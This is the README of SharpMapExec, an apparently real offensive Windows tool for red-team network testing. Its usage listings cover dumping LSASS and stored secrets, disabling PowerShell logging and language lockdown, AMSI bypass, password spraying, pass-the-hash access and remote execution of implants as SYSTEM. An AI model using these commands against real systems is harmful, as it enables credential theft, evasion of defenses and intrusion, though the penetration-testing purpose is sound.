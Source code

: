 # SharpMapExec

A sharpen version of [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec). This tool is made to simplify penetration testing of networks and to create a swiss army knife that is made for running on Windows which is often a requirement during insider threat simulation engagements.



Besides scanning for access it can be used to identify vulnerable configurations and exfiltrate data. The idea for the data exfiltration modules is to execute the least amount of necessary code on the remote computer. To accomplish this, the tool will download all the secrets to the loot directory and parse them locally.



You can specify if you want to use Kerberos or NTLM authentication. If you choose Kerberos, the tool will create a sacrificial token and use [Rubeus](https://github.com/GhostPack/Rubeus) to import/ask for the ticket. If NTLM is specified, the tool will use [SharpKatz](https://github.com/b4rtik/SharpKatz) `SetThreadToken` or  `LogonUser` impersonation.

```
SharpMapExec.exe
  usage:

    --- Cim ---
        Need plaintext password or the /impersonate flag
        SharpMapExec.exe ntlm cim /user:USER /password:PASSWORD /computername:TARGET

       Available Cim modules
          /m:enable_winrm                             (Runs Enable-PSRemoting -Force)
          /m:disable_winrm                            (Runs Disable-PSRemoting -Force)
          /m:disable_pslockdown                       (Modify __PSLockdownPolicy registry to disable CLM)
          /m:disable_pslogging                        (Modify registry to disable PowerShell Logging)
          /m:check_pslockdown                         (Check __PSLockdownPolicy registry)
          /m:check_pslogging                          (Check PowerShell Logging registry)

    --- Reg32 ---
        SharpMapExec.exe ntlm reg32 /user:USER /ntlm:HASH /computername:TARGET
        SharpMapExec.exe kerberos reg32 </user:USER /password:PASSWORD /domain:DOMAIN /dc:DC | /ticket:TICKET.Kirbi>  /computername:TARGET

       Reg32 modules
          /m:disable_pslockdown                       (Modify __PSLockdownPolicy registry to disable CLM)
          /m:check_pslockdown                         (Check __PSLockdownPolicy registry)
          /m:check_pslogging                          (Check PowerShell Logging registry)

    --- Smb ---
        SharpMapExec.exe ntlm smb /user:USER /ntlm:HASH /domain:DOMAIN /computername:TARGET
        SharpMapExec.exe kerberos smb </user:USER /password:PASSWORD /domain:DOMAIN /dc:DC | /ticket:TICKET.Kirbi>  /computername:TARGET

       Smb modules
          /m:shares                                   (Scan for accessible Smb shares)

    --- WinRm ---
        SharpMapExec.exe ntlm winrm /user:USER /password:PASSWORD /domain:DOMAIN /computername:TARGET
        SharpMapExec.exe kerberos winrm </user:USER /rc4:HASH  /domain:DOMAIN /dc:DC | /ticket:TICKET.Kirbi>  /computername:TARGET

       WinRm modules
          /m:exec /a:whoami                           (Invoke-Command)
          /m:exec /a:C:\beacon.exe /system            (Invoke-Command as System)
          /m:comsvcs                                  (Dump & parse lsass)
          /m:secrets                                  (Dump and Parse Sam, Lsa, and System Dpapi blobs)
          /m:assembly /p:Rubeus.exe /a:dump           (Execute local C# assembly in memory)
          /m:assembly /p:beacon.exe /system           (Execute local C# assembly as System in memory)
          /m:assembly /p:getMailBox.exe /delegwalk    (Execute local C# assembly in all unique delegation processes in memory)
          /m:download /path:C:\file /destination:file (Download file from host)
          /m:upload   /path:C:\file /destination:file (Upload file to host)

    --- Domain ---
        SharpMapExec.exe kerbspray /users:USERS.TXT /passwords:PASSWORDS.TXT /domain:DOMAIN /dc:DC
        SharpMapExec.exe tgtdeleg

    --- Ldap ---
        SharpMapExec.exe ntlm domain /user:USER /password:PASSWORD /domain:DOMAIN /dc:DC /m:MODULE
        SharpMapExec.exe kerberos ldap </user:USER /password:PASSWORD /domain:DOMAIN /dc:DC /m:MODULE | /ticket:TICKET.Kirbi>

       Ldap modules
          /m:spraydata                                (Download user and password policy)
```

### Smb

Can be used to scan for admin access, accessible Smb shares, Smb version and relay signing.

````
/m:shares                                  (Scan enumerated shares for access)
````

### WinRm

The beast. It has built-in Amsi bypass, JEA language breakout, JEA function analysis. Can be used for code execution, scaning for PsRemote access, vulnerable JEA endpoints, and data exfiltration.

````
/m:exec /a:whoami                           (Invoke-Command)
/m:exec /a:C:\beacon.exe /system            (Invoke-Command as System)
/m:comsvcs                                  (Dump Lsass Process)
/m:secrets                                  (Dump and Parse Sam, Lsa, and System Dpapi blobs)
/m:assembly /p:Rubeus.exe /a:dump           (Execute Local C# Assembly in memory)
/m:assembly /p:beacon.exe /system           (Execute Local C# Assembly as System in memory)
/m:download /path:C:\file /destination:file (Download File from Host)
````

### Domain

Currently supports domain password spraying and to create a TGT for the current user that can be used with the `/ticket` parameter to get the current context.

### Ldap

Download necessary data before pw spraying

```
/m:spraydata                                (Download user and password policy)
```



### Example usage

For easy or mass in-memory execution of C# assemblies

![](images/mass_assembly.png)

Kerberos password spraying then scanning for local admin access

![](images/spray+admin.png)

This project supports scanning JEA endpoints and will analyze source code of non default commands and check if the endpoint was not configured for `no-language` mode.

![](images/jea.png)

Discover local admin password reuse with an NT hash.

![](images/localadmin.png)

Mass dump Lsass process with built-in Microsoft signed DLL and saves it to the `loot` folder

![](images/lsassdump.png)

Executes in all delegation processes sorted by unique by users

![](images/delegwalk.png)

Scan for SMB signing and SMBv1

![](images/smbvscan.png)

And much more!

Some scenarios with Kerberos will require you to sync your clock with the DC and set the DNS

```powershell
net time \\DC01.hackit.local /set
Get-NetAdapter ethernet0* | Set-DnsClientServerAddress -ServerAddresses @('192.168.1.10')
```





### Acknowledgments

Projects that helped or are existing in this tool

* [Rubeus](https://github.com/GhostPack/Rubeus)              [@Harmj0y](https://twitter.com/harmj0y)
* [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)      [@Harmj0y](https://twitter.com/harmj0y)
* [SharpKatz](https://github.com/b4rtik/SharpKatz)         [@b4rtik](https://twitter.com/b4rtik)
* [Amsi.Fail](https://github.com/Flangvik/AMSI.fail)           [@Flangvik](https://twitter.com/Flangvik)
* [SharpSecDump](https://github.com/G0ldenGunSec/SharpSecDump) [@G0ldenGunSec](https://twitter.com/G0ldenGunSec)
* [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)  [@byt3bl33d3r](https://twitter.com/byt3bl33d3r)
* [Pingcastle ](https://github.com/vletoux/pingcastle)         [@mysmartlogon](https://twitter.com/mysmartlogon)
* [SharpSpray](https://github.com/jnqpblc/SharpSpray)
